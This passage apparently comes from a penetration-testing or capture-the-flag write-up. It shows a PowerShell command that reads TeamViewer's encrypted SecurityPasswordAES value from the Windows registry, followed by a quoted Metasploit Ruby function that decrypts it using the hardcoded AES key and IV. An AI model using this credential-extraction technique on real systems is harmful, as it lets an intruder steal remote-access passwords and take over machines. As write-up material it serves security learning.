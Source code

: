     
    
    PS HKLM:\software\wow6432node\teamviewer\version7> (get-itemproperty -path .).SecurityPasswordAES
    255
    155
    28
    115
    214
    107
    206
    49
    172
    65
    62
    174
    19
    27
    70
    79
    88
    47
    108
    226
    209
    225
    243
    218
    126
    141
    55
    107
    38
    57
    78
    91
    

### Decrypt Password

Looking a bit more at the Metasploit code, there’s a decrypt function:

    
    
    def decrypt(encrypted_data)
        password = ""
        return password unless encrypted_data
    
        password = ""
    
        key = "\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
        iv  = "\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
        aes = OpenSSL::Cipher.new("AES-128-CBC")
        begin
            aes.decrypt
            aes.key = key
            aes.iv = iv
            plaintext = aes.update(encrypted_data)
            password = Rex::Text.to_ascii(plaintext, 'utf-16le')
            if plaintext.empty?
                return nil
            end
        rescue OpenSSL::Cipher::CipherError => e
            print_error("Unable to decrypt the data. Exception: #{e}")
        end
    